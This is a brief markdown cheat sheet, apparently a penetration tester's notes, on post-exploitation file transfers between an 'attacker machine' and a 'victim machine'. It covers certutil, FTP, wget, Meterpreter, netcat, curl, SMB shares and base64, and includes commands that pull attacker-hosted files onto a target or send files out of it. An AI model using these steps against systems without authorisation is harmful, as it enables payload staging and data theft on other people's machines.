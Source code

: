 # File Transfers
So what is post exploitation this when we basically consisits of stuff like File transfers, port forwarding, pivoting, maintaining access, Clean up etc.

So to do fle transfers we we will use tools like certutil,ftp,browser,FTP, wget

### File Transfers / Certutil.exe →

Http Server hosting with Python :

```bash
python -m SimpleHTTPServer 80
```

Getting the file on the Winndows machine using certutil

```bash
certutil.exe -urlcache -f link filename
```

### FTP Transfer :

So you can host a FTP server on the attacker machine and then connect to that from victim machine

```bash
python -m pyftpdlib 21 #Host it like this

ftp <AttackIP> #Get it like this
```

### WGET Transfer :

```bash
wget link #Works on linux only though
```

### Metasploit :

If you have a meterpreter shell you can use the built functions on metasploit and upload and download stuff .

```bash
upload filename # To upload filename to the target machine.
download filename # To download filename from the target machine.
```

### Netcat Transer Files :

On the listening end where you wanna receive the file :

```bash
nc -l -p 1234 > filefromtargertbrr
```

From where you wanna send the file :

```bash
nc -w 3 <IP> 1234 < filefromtargertbrr
```

### Curl File Transfer :

Host files using python3 from the attacker machine

```bash
python3 -m http.server 80
```

To download them

```bash
curl http://<YOURIP>:<PORT>/filefromattackerbrr -o fileoutput
```

### SMB Server :

To host stuff on a linux machine,

```bash
sudo smbserver.py Share /folder/youwannashare
```

Get them on the Windows server like :

```powershell
new view \\\\10.10.10.10 # Lists all the shares
dir \\\\10.10.10.10\\Share # List files in the Share
copy \\\\10.10.10.10\\Share # Copy Files from the Share
```

---

Linux

```powershell
smbclient -L 10.10.10.10 #To list shares
smbclient \\\\10.10.10.10\\Share # To connect to the share and then you can download stuff using get
```

### Base64 file transfering :

To turn a file into base 64

```bash
cat exploit.py | base64
```

Turn a command or like a one liner into base64

```bash
echo "Hello" | base64
```

Then turn this Text back to normal text and transfer it to a file in linux we can use :

```bash
echo -n "SGVsbG8K" | base64 -d > file
```